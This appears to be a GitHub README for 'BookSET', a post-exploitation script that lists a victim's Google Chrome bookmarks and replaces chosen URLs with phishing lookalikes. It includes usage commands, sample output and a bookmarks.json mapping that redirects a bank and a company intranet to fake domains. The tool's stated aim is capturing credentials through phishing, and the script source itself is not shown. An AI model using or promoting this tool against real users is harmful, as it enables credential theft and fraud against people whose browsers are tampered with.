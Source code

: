 # BookSET - Bookmarks Social Engineer Tool

A simple script for Post-Exploitation - by @_mrpack

This script was generated to modify all URLs in BookMarks from Google Chrome, this script can be use for capture some credentials with Phishing sites or just redirect the "victim" to your EvilServer.


# 🔴: How it works!

Ok... first of all we need to install just one library for ASCII Art:

```bash
pip install pyfiglet

```
thats it :D !!

## Help !

if you need to know the parameters from the script pls type:

```bash
python bookSET.py -h


 ____              _     ____  _____ _____
| __ )  ___   ___ | | __/ ___|| ____|_   _|
|  _ \ / _ \ / _ \| |/ /\___ \|  _|   | |
| |_) | (_) | (_) |   <  ___) | |___  | |
|____/ \___/ \___/|_|\_\|____/|_____| |_|


just a simple post-exploitation tool :)

usage: bookSET.py [-h] [-recon] [-replace]

Get and Replace all Urls from Google Chrome BookMarks

optional arguments:
  -h, --help  show this help message and exit
  -recon      Get all URLs Bookmarks
  -replace    Replace URLs Bookmarks


```


## [+] Recon Mode 

If you want to know what BookMarks the target has, then we just need to execute the following command line:
```bash
python bookSET.py -recon

```

and the output should be something like this:

```bash

 ____              _     ____  _____ _____
| __ )  ___   ___ | | __/ ___|| ____|_   _|
|  _ \ / _ \ / _ \| |/ /\___ \|  _|   | |
| |_) | (_) | (_) |   <  ___) | |___  | |
|____/ \___/ \___/|_|\_\|____/|_____| |_|

 
[+] Getting Urls from BookMarks:
 
 - https://www.facebook.com
 - https://www.bank.com
 - https://www.twitter.com
 - https://www.instagram.com
 - https://intranet.companie.org

[+] Total of BookMarks identified : [5]

```

## [+] Replace Mode

Now that we know all the BookMark that the target has, we can check all the URLs and just make a "fake website"  for each URL that we want ;) :

```bash
python bookSET.py -replace

```

and the output should be something like this:

```bash

 ____              _     ____  _____ _____
| __ )  ___   ___ | | __/ ___|| ____|_   _|
|  _ \ / _ \ / _ \| |/ /\___ \|  _|   | |
| |_) | (_) | (_) |   <  ___) | |___  | |
|____/ \___/ \___/|_|\_\|____/|_____| |_|


just a simple post-exploitation tool :)

[+] URLs modified:

     [-] https://www.fakebank.com/
     [-] https://intranet.fakecompanie.org/

[+] Total of BookMarks replaced : [2]


```

## [+] bookmarks.json file content

The content of "bookmarks.json" it's easy to understand, the "current_url" it's the URL that we want to change and replace it with "new_url" instead.

```bash

{
    "bookmark_bar": [
      {
        "current_url": "https://www.bank.com/",
        "new_url": "https://www.fakebank.com/"
      },
      {
        "current_url": "https://intranet.companie.org/",
        "new_url": "https://intranet.fakecompanie.org/"
      }
    ]
  }
  
  ```

*NOTE:* Before you executed the script it's important to restart google chrome.

